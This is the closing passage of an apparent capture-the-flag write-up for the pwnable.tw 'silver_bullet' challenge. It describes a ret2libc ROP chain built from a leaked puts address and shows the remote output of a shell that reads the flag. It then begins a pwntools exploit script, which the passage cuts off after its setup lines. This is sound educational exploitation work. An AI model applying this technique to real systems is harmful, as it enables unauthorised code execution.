 
Pretty much just the same flow for the first one, except our payload is slightly different, and this time because we used `libc.address = leak - libc.sym.puts`, we automatically get the base of libc, and can now call things by creating an automatic rop-chain based off libc instead of just our program! So we can literally just use `rop2.execve` or `rop2.system` with whatever input we want and it's game over! Now to rest it on remote!

```sh
[+] Opening connection to chall.pwnable.tw on port 10103: Done
[-]..snip
Your choice :
[*] Sending payload3 here
[*] Switching to interactive mode
>----------- Werewolf -----------<
 + NAME : Gin
 + HP : 1002159083
>--------------------------------<
Try to beat it .....
Oh ! You win !!
$ ls
bin
boot
dev
etc
home
$ cd home
$ ls
silver_bullet
$ cd silver_bullet
$ ls
flag
run.sh
silver_bullet
$ cat flag
FLAG{n0t_r3al_f14g_btw_:3}
```

Perfect! Hope you enjoyed!

## Full exploit script:

And here's the final exploit script if you wanted to go through it, it's got a lot of stuff that's specific to me though, like all the shorthands, but you can replace it with the long-form versions if it doesn't make sense.

```py
#!/usr/bin/env python3
from pwn import *

exe = ELF("./silver_bullet_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")
context.binary = exe
r = ROP(exe)
ru = lambda *x, **y: print(p.recvuntil(*x, **y))
rl = lambda *x, **y: p.recvline(*x, **y)
rc = lambda *x, **y: p.recv(*x, **y)
sla = lambda *x, **y: print(p.sendlineafter(*x, **y).decode())
sa = lambda *x, **y: p.sendafter(*x, **y)
sl = lambda *x, **y: p.sendline(*x, **y)
sn = lambda *x, **y: p.send(*x, **y)

if args.REMOTE:
    p = remote("chall.pwnable.tw", 10103)
elif args.GDB:
    # If there's stupid timers:
```